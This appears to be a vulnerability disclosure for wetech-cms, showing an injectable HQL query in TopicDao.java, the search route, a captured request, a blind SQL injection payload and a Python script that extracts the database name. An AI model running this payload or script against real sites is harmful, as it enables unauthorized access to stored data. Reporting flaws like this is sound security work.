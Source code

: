```yaml
---
typora-root-url: ./img
---
```


**BUG_Author:**

hadagaga

**Vendor:**

https://github.com/cjbi/wetech-cms

**Software:**

https://github.com/cjbi/wetech-cms

**Vulnerability File:**

##### wetech-cms-master\wetech-core\src\main\java\tech\wetech\cms\dao\TopicDao.java

```java
	@Override
	public Pager<Topic> searchTopic(String con) {
		String hql = getTopicSelect() + " from Topic t where t.status=1 and " + "(title like '%" + con
				+ "%' or content like '%" + con + "%' or summary like '%" + con + "%')";
		return this.find(hql);
	}
```

​	Locate a route retroactively

```java
	@RequestMapping(value = "/search", method = RequestMethod.POST)
	public List<Topic> search(String con) {
		SystemContext.setOrder("asc");
		SystemContext.setSort("c.orders");
		SystemContext.setOrder("desc");
		SystemContext.setSort("t.publishDate");
		Pager<Topic> topics = topicService.searchTopic(con);
		// 将关键字着色
		focus(topics, con);
		return topics.getDatas();
	}
```

​	Based on the route, we locate the front-end search function

​	![image-20241128211313097](/image-20241128211313097.png)

​	Capture packets after searching:

```http
POST /search.do HTTP/1.1
Host: 172.21.55.165:8888
Content-Length: 7
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.21.55.165:8888
Referer: http://172.21.55.165:8888/?
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=5EA494FF429C210478C61A1E2BA26079
Connection: close

con=123
```

​	After outputting single quotation marks, an error is found, and you try to construct an SQL statement to get payload:

```SQL
1%' and content like (case when ascii(substr(database(),1,1))=1 then '' else '%' end) or content like '1
```

​	Based on the payload, we have the following python script

```python
import requests
true_of_payload = {
    "con" : "1%' and content like (case when ascii(substr(database(),1,1))=1 then '' else '%' end) or content like '1"
}
url = "http://172.21.55.165:8888/search"
def req():
    r = requests.post(url,params=true_of_payload)
    true_len = len(r.text)
    for i in range(1,11):
        for j in range(64,127):
            payload = {
                "con" : "1%' and content like (case when ascii(substr(database(),{},1))={} then '' else '%' end) or content like '1".format(i,j)
            }
            r = requests.post(url,params=payload)
            if len(r.text) != true_len:
                print(chr(j),end='')
                break

def main():
    req()

if __name__ == "__main__":
    main()

```

​	Successfully obtain the library name:

![image-20241127145422588](/image-20241127145422588-1732721891176-6-1732797677431-3-1732799709162-1.png)